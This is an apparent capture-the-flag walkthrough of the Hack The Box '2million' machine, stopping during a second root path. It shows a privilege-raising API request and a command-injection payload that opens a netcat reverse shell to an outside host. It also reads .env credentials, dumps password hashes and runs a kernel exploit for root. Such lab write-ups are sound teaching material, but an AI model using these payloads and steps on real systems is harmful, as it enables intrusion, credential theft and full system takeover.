### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target
```



As we can see, port `22` is opened with `ssh`, and port `80` with http server.

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can add `2million.htb` to our `/etc/hosts` file:
```bash
10.10.11.221    2million.htb
```

### Find hidden endpoints and give admin privileges to our user

After some playing around the website at `2million.htb`, we understand there is `/invite` page where you supply an invite code, `/register` for registering using the invite code and `/login`. 
However, we can't find the invite code, so I tried checking the javascript code on the `/invite` page:

 

As we can see, it imports code from `/js/inviteapi.min.js`, let's look what there is in this file:
```js
eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};if(!''.replace(/^/,String)){while(c--){d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}',24,24,'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'),0,{}))
```

This is obfuscated code, we can use ChatGPT to deobfuscate this code:
```js
function verifyInviteCode(code) {
    var formData = {"code": code};
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/verify',
        data: formData,
        success: function(response) {
            console.log(response);
        },
        error: function(response) {
            console.log(response);
        }
    });
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/generate',
        success: function(response) {
            console.log(response);
        },
        error: function(response) {
            console.log(response);
        }
    });
}
```

Okay, we can see there are two endpoints: `/api/v1/invite/generate` for generating the code, and `/api/v1/invite/verify` for verifying. 

Let's generate the code using BurpSuite:



We get back the string `TlgxSlUtUFpDWVgtS1VOTUktMDFPWjM=`, which is base64 encode of `NX1JU-PZCYX-KUNMI-01OZ3`.

after supplying the code in the invite box, we managed to create our user, now let's login with our new user





after logging in, we can see inside `http://2million.htb/home/access` the Connection Pack button, and when we press it, we get `.ovpn` file, from the endpoint `/api/v1/user/vpn/generate`



We can try to request data from other endpoints, for example let's try from `/api`:
```json
{
  "/api/v1": "Version 1 of the API"
}
```

Okay, let's try from `/api/v1`:
```json
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

Alright, there are 3 endpoints for `admin`, we can check first if our user `elicopter770` is an admin, and then update if not to be an admin.

check if admin, we can see that the user with the email `elicopter770@gmail.com` is not an admin.



change to admin, this is our request:
```bash
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=7qdb5r1vhppdgdem7itmm8rp8r
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 52
Content-Type: application/json

{
    "email":"elicopter770@gmail.com",
	"is_admin":1
}
```



### Get reverse shell via command injection

This entry point is very interesting, because we can supply our own filename to this endpoint:
```json
"POST": {
    "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
}
```

Probably it interacts with os commands behind the scenes, when it `echo` our username or something.
We can try inject `;` to execute another command, and then get the reverse shell.

we'll use https://www.revshells.com/ to generate the reverse shell, ip `10.10.16.49` and port `770`.
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.49 770 >/tmp/f
```


Now, let send the payload:
```bash
user ; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.49 770 >/tmp/f
```



And stabilizing the shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo
stty rows 38 columns 116
```

### Escalate to user admin

first, we view the folder.
The file `.env` looks suspicious, let's give a quick look what it contains.

```bash
www-data@2million:~/html$ ls -la
total 56
drwxr-xr-x 10 root root 4096 Oct 23 16:20 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Oct 23 16:20 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views
```
reading `.evn`:
```bash
www-data@2million:~/html$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

let's use this password to login to the `mysql` server, we can se that there is `mysql` server on the machine.



Let's fetch data from tables:

```sql
MariaDB [htb_prod]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb_prod           |
| information_schema |
+--------------------+
2 rows in set (0.000 sec)

MariaDB [htb_prod]> use htb_prod;
Database changed
MariaDB [htb_prod]> show tables;
+--------------------+
| Tables_in_htb_prod |
+--------------------+
| invite_codes       |
| users              |
+--------------------+
2 rows in set (0.000 sec)

MariaDB [htb_prod]> select * from users;
+----+--------------+----------------------------+--------------------------------------------------------------+----------+
| id | username     | email                      | password                                                     | is_admin |
+----+--------------+----------------------------+--------------------------------------------------------------+----------+
| 11 | TRX          | trx@hackthebox.eu          | $2y$10$TG6oZ3ow5UZhLlw7MDME5um7j/7Cw1o6BhY8RhHMnrr2ObU3loEMq |        1 |
| 12 | TheCyberGeek | thecybergeek@hackthebox.eu | $2y$10$wATidKUukcOeJRaBpYtOyekSpwkKghaNYr5pjsomZUKAd0wbzw4QK |        1 |
| 13 | elicopter770 | elicopter770@gmail.com     | $2y$10$Hw47xPNU0uOAa5hNW6j73OkGdLo6ceVZ9048kJm7OR3qnr59qnd.u |        1 |
| 14 | masood99     | masood@gmail.com           | $2y$10$rlXUFM2WXK09WSrR1xWkYeAir/Rln4kUgJV6R2Xlvx4ASxYlL2Xhi |        1 |
+----+--------------+----------------------------+--------------------------------------------------------------+----------+
4 rows in set (0.000 sec)
```

I tried to crack the passwords through brute force, but it took too much time, and nothing was cracked



So, let's search for a different path.
we can view the users on the system
```bash
www-data@2million:~/html$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
admin:x:1000:1000::/home/admin:/bin/bash
memcache:x:115:121:Memcached,,,:/nonexistent:/bin/false
_laurel:x:998:998::/var/log/laurel:/bin/false
```

So, there is a user that is called `admin`, maybe he uses the same password he used for the mysql server, which is `SuperDuperPass123`



```bash
admin@2million:~$ cat user.txt 
9d6bcf11d1367177ee1e7c1788f83200
```

### Privilege Escalation to Root - path1

First, we try the `sudo -l`, but nope, we don't have `sudo`.
```bash
admin@2million:~$ sudo -l
Sorry, user admin may not run sudo on localhost.
```

Then, we can check for common PE paths using `linpeas.sh`, however, nothing interesting popping up.

Now let's explore the mail folders, aka `/var/spool/mail`:
```bash
admin@2million:/var/spool/mail$ ls
admin
admin@2million:/var/spool/mail$ cat admin 
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

Okay, we found some interesting mail, what is `OverlayFS / FUSE` ?

when I googled, i found this https://github.com/puckiestyle/CVE-2023-0386.

I simply downloaded the PoC, execute `make all`, and then these two commands:
```bash
./fuse ./ovlcap/lower ./gc &                           
./exp
```

Here you can see how i got the flag

```bash
admin@2million:/tmp/CVE-2023-0386$ ./fuse ./ovlcap/lower ./gc &                                                                                  
[5] 80582                                                                                                                                       

admin@2million:/tmp/CVE-2023-0386$ [+] len of gc: 0x3ee0                                                                                                                                                                                                                                                      
admin@2million:/tmp/CVE-2023-0386$ ./exp
uid:1000 gid:1000
[+] mount success
[+] readdir
[+] getattr_callback
/file
total 8
drwxrwxr-x 1 root   root     4096 Oct 23 21:37 .
drwxrwxr-x 6 root   root     4096 Oct 23 21:37 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] open_callback
/file
[+] read buf callback
offset 0
size 16384
path /file
[+] open_callback
/file
[+] open_callback
/file
[+] ioctl callback
path /file
cmd 0x80086601
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:/tmp/CVE-2023-0386# id
uid=0(root) gid=0(root) groups=0(root),1000(admin)
root@2million:/tmp/CVE-2023-0386# cat /root/root.txt
94d527fe58a530af59e64f4f0ca0ca19
```



### Privilege Escalation to Root - path2

using `ldd` we can check the version of the GLIBC:
```bash
admin@2million:~$ ldd --version
ldd (Ubuntu GLIBC 2.35-0ubuntu3.1) 2.35
Copyright (C) 2022 Free Software Foundation, Inc.
